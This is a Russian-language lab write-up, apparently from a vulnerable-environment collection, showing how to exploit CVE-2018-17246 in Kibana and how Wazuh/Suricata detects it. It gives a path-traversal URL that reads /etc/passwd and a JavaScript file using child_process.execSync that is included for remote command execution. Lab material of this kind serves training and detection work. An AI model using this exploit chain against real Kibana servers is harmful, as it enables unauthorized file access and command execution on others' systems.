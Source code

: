 # CVE-2018-17246

Kibana — это панель визуализации данных для Elasticsearch  с открытым исходным кодом.

Версии Kibana до 6.4.3 и 5.6.13 содержат ошибку включения произвольных файлов в плагине консоли. Злоумышленник, имеющий доступ к API консоли Kibana, может отправить запрос, который попытается выполнить код JavaScript. Это может привести к тому, что злоумышленник сможет выполнять произвольные команды с разрешениями процесса Kibana на хосте.

### Эксплуатация уязвимости&#x20;

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:5601 будет доступна панель Kibana

Введите следующий URL-адрес в вашу поисковую строку:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

При отправке этого запроса возникает 500-я ошибка, но мы можем увидеть исключение в логах контейнера (`docker compose logs`)

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для реализации уязвимости запишите следующий код в файл на уязвимом хосте&#x20;

```
docker compose exec kibana bash
echo "export default {asJson: function() {return require(\"child_process\").execSync(\"id\").toString()}}" > /tmp/vulhub.js
```

После отправки следующего  GET-запроса в ответе мы получим результат выполнения команды id на целевой машине:

```
http://ваш-ip:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/vulhub.js
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>
